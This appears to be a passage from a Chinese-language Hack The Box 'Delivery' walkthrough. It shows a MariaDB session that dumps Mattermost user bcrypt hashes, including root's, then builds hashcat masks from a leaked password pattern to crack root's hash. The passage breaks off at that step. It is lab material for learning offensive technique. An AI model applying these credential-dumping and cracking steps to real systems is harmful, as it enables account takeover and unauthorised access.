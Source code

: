 Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 

```

在users表找到root的加密凭据
```
ariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
7 rows in set (0.001 sec)


```

上面后台的留言中,说明密码是字符串```PleaseSubscribe!```的变体
```
Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"
root
10:58 AM

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```


以```PleaseSubscribe!```为前缀的密码
```
PleaseSubscribe!?d
PleaseSubscribe!?d?d
PleaseSubscribe!?d?d?d
PleaseSubscribe!?d?d?d?d
```

准备两个文件，一个源密码，一个掩码
```
┌──(root💀kali)-[~/htb/Delivery]
└─# cat hash.txt                             
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO